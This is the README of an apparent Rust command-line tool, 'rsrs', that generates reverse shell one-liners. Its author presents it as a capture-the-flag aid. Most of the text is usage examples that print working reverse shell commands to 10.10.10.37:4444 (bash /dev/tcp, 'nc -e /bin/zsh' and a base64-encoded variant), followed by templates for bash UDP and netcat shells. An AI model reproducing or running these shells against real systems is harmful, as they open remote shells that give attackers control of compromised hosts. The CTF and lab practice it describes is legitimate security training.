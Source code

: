 * RuSt Reverse Shell
** What is this?
A reverse shell generator written in rust.
** Why?
I enjoy playing CTFs. There are reverse shell generators available on the web,
but i wanted a single binary program that I could throw into containers and VMs
easily, or just netcat across the wire to a target box.
* Usage
There are 3 subcommands. =Generate=, which generates a reverse shell,
=list-shells= which lists the names of the reverse shells that were compiled in,
and =list-shells-verbose= which lists shells, their components, and their
capabilities.
** Examples
Generate a TCP Bash reverse shell that connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r bash_tcp
bash -i >& /dev/tcp/10.10.10.37/4444 0>&1
#+END_SRC

Generate a netcat shell, that uses zsh, and connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r "nc -e" --shell "/bin/zsh"
nc -e /bin/zsh 10.10.10.37 4444
#+END_SRC

Generate a netcat shell, that uses zsh, connects to port 4444 on the IP address
10.10.10.37 and output the string as base64
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r "nc -e" --shell "/bin/zsh" -e base64
bmMgLWUgL2Jpbi96c2ggMTAuMTAuMTAuMzcgNDQ0NA==
#+END_SRC


List all shells that run on Linux.
#+BEGIN_SRC
rsrs list-shells linux
nc -c
nc -e
bash_tcp
bash_udp
#+END_SRC

List all shells that run on linux, verbose.
#+BEGIN_SRC
rsrs list-shells-verbose linux
Name:		bash_udp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/udp/{SUBIP}/{SUBPORT} 0>&1
Name:		nc -c
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -c {SUBSHELL} {SUBIP} {SUBPORT}
Name:		nc -e
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -e {SUBSHELL} {SUBIP} {SUBPORT}
Name:		bash_tcp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/tcp/{SUBIP}/{SUBPORT} 0>&1
#+END_SRC
